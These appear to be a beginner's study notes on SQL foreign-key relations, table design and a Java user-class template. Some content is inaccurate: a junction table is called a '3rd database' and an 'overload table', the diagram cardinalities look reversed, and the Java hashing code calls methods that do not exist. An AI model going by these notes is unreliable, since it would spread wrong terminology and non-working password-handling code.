```sql
UPDATE user SET deleted_at = CURRENT_TIMESTAMP WHERE id = 1;
```

### Notes
> NEVER UNDER ANY CIRCUMSTANCE STORE RAW PASSWORDS IN A CELL 


## SQL forgen key relation

### 1:1
> one to one relations work iff one thing from one table connects to 1 other thing from another table. 
> if i have users and a icon; each user only need one icon so i use a 1:1 connection to relate thse 2 tables


### 1:many
> one to many relatons work iff one table need many cels from anoter table. 
> if i have users and am storign there files i will ass a userId row to files, and connect it to users; witch means that a file is connect to its users. 
> This is 1:many becasue as it connects 1 user to many files.


### many:many
> many to many relations requres the creation of a 3rd database. 
> say you are building a chat app, and you have tables user and rooms; and you need to connect them. Well you have many users and many rooms, so we will crate a many:many table called user_room. user_room will only hold userId and roomId
> this third table can be referd to as a overload tale
 ```mermaid
erDiagram
    USERS }|--|| USER_ROOM : participates
    ROOMS }|--|| USER_ROOM : contains
    USER_ROOM {
        int user_id FK
        int room_id FK
        timestamp joined_at
    }
    USERS {
        int id PK
        string username
        string password
        timestamp created_at
        timestamp updated_at
        timestamp deleted_at
    }
    ROOMS {
        int id PK
        string room_name
        string description
        timestamp created_at
        boolean is_private
    }
```

### self:self tables
> sometimes we need a table to look inside its self. This is rare, but is a specal type of forgen key. We do not demark this cell with the forgen key (FK) demarkation; however due to its name and INTEGER datatype coders reconse that the cell is ment for data usage.


### build tables
> bulding sql tables is just lieke creating java classes. 
> all tables need id <this can be any type, but it must be unique and non-recratabel (numbers are not the same in a PK)>
> create cels with the intent of holding the MAX content. a VARCHAR(255) can hold 255 characters. 
> create functions, triggers, and enums to automate prosesses
> lastly create bounds to other tables ([relation](#sql-forgen-key-relation))

### Flow digrams for creation


### Creating Proper code
> this java code is a template for coders to use in order to create OOP versions of a db table.
```java
class User {
    private int id;
    private String name;
    private String username;
    private String hash;

    /**
     * hash a passwoed
     * @param password the password
     * @return the hashed password
     */
    private static final String hashPassword(String password) {
        return password.hash();
    }

    /**
     * check if a password matches its hash
     * @param hash the hash (pasword from the db)
     * @param password the plain text password
     * @return if the passords match or not
     */
    private static final boolean check(String hash, String password) {
        return compair(hash, password);
    }
}
```
